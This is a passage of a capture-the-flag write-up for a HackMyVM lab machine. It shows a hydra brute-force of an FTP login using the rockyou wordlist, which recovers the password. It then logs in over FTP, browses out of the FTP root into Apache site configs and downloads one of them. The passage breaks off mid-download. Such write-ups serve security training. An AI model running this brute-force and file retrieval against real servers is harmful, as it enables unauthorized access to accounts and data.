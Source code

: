 otpuser
#4ck!ng!s!nMybl0od

user:david

# 04 Bruteforce FTP

After finding the username, I bruteforced the FTP server.

```bash
┌──(root💀K4liR4t)-[~/Documents/HACK_MY_VM/Hard/otp]
└─# hydra -l david -P /usr/share/wordlists/rockyou.txt ftp://192.168.1.34Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-22 17:18:01
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.1.34:21/
[STATUS] 256.00 tries/min, 256 tries in 00:01h, 14344143 to do in 933:52h, 16 active
[STATUS] 255.67 tries/min, 767 tries in 00:03h, 14343632 to do in 935:03h, 16 active
[STATUS] 264.57 tries/min, 1852 tries in 00:07h, 14342547 to do in 903:31h, 16 active
[STATUS] 262.93 tries/min, 3944 tries in 00:15h, 14340455 to do in 909:01h, 16 active
[21][ftp] host: 192.168.1.34   login: david   password: DAVID
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-22 17:39:56
```

This gives us the password for the user we found.

# 05 Log in to the FTP server

```bash
┌──(root💀K4liR4t)-[~/Documents/HACK_MY_VM/Hard/otp]
└─# ftp 192.168.1.34
Connected to 192.168.1.34.
220 (vsFTPd 3.0.3)
Name (192.168.1.34:root): david
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||48168|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001          125 Nov 19 08:41 important_note.txt
226 Directory send OK.
ftp> pwd
Remote directory: /srv/ftp
ftp> cd /etc/apache2/sites-available/
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||57066|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1228 Nov 21 03:44 000-default.conf
-rw-r--r--    1 0        0            1125 Nov 22 11:25 argon.conf
-rw-r--r--    1 0        0            6338 Aug 08  2020 default-ssl.conf
-rw-r--r--    1 0        0            1123 Nov 22 12:19 totp.conf
226 Directory send OK.
ftp> get argon.conf
local: argon.conf remote: argon.conf
229 Entering Extended Passive Mode (|||13974|)
150 Opening BINARY mode data connection for argon.conf (1125 bytes).
```